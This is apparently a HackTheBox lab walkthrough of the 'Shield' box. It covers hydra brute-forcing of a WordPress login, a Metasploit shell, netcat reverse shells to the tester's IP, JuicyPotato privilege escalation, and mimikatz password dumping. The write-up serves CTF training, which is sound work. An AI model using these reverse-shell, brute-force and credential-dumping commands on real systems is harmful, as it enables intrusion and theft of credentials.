*2021-08-16*

*kimm3*
# Walkthrough: Shield
Platform: HackTheBox, Starting Point

Difficulty: Very Easy

This is the fourth box in the starting point series.

The boxes build on each other so make sure to save credentials and other intersting information that you find.

## Info gathering and enumeration
`export IP=10.10.10.29`
`sudo nmap $IP -p- -O -Pn --disable-arp-ping -v -oA nmap/init-scan`



A http and a sql service.



A standard IIS page. Use ffuf to enumerate further.

`ffuf -u "http://10.10.10.29/FUZZ" -w sl/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ`



A wordpress site. If we browse to it belongs to a electric car manufacturer named SHIELDS UP. If there's a wordpress, there's a wp-login site. If we can get in there as an admin, we can use metasploit to land a shell/meterpreter.



I've put together a list of usernames and passwords previously encountered in the series, removing service accounts such as www-data and postgres. It's 24 combinations so lets use hydra to make it go quicker. The site responses differently if the user exists or not so I've previously put togheter a command to quickly fuzz usernames. It goes:
```
hydra -L users.txt -p test 10.10.10.29 http-post-form "/wordpress/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.10.29%2Fwordpress%2Fwp-admin%2F&testcookie=1:F=Invalid username."
```



The user admin is found. Let's try with our available passwords.

```
hydra -l admin -P pass.txt $IP http-post-form "/wordpress/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.10.29%2Fwordpress%2Fwp-admin%2F&testcookie=1:F=<title>Log In"
```



The last one worked. Let's go to the page and log in.


## Fothoold
Easiest way to land a shell from here is using metasploit.

Fire up msfconsole and search for 'wp admin'.



**Useful msfconsole commands**

`search <term>` - make a search
`use <nr/name>` - use that exploit
`info` - show info about current exploit, you can see the options you have to set here
`set <option> <value>` - set an option to a value, like the USERNAME to 'admin'.
`run` - run the exploit



*If the exploit runs and fails to get a meterpreter, try to set the LHOST option to your tunnel IP, as it might default to something else.*

**Useful meterpreter commands**
```
ls
cd
pwd
sysinfo
getuid
upload
download
shell
```



The shell seems to hang for me every time I send a command, not sure if intended from the box creator or just a temporary bug.

I tried som different shells, with pretty much the same results. You can use it to enumerate the file system at least. For example you can see that the user folder contains a new user, sandra. Let's try to get a proper shell to continue enum and find a privesc. In the wordpress wp-content folder there's a folder called uploads, I uploaded nc.exe(`/usr/share/windows-resources/binaries/` in kali) and executed it with meterpreter:

`execute -f nc.exe -a "-e powershell 10.10.16.96 4242"`

*(I changed the name of nc to myownnc.exe due many other users doing the same thing with nc.exe)*





From here it's easier to continue searching for exploits. The user has the "SeImpersonatePriviliege" token enabled. This could make it vulnerable to one of the potato exploits(google it).
## Privilege escalation
Ref: https://github.com/ohpe/juicy-potato

From the meterpreter, upload the JuicyPotato.exe and a bat file containing the command to start a reverse powershell with netcat(same as we did before, but this time it will be run as system account).


*I've renamed my files to not mix them with other users doing the same thing. jpjp.exe is the JuicyPotato.exe*

Create shell-script:

`echo START C:\inetpub\wwwroot\wordpress\wp-content\uploads\nc.exe -e powershell 10.10.16.96 1333 > myownshell.bat`





## Post expliotation
Ref: https://github.com/gentilkiwi/mimikatz

We can use mimikatz and `sekurlsa::logonpasswords` to dump passwords.


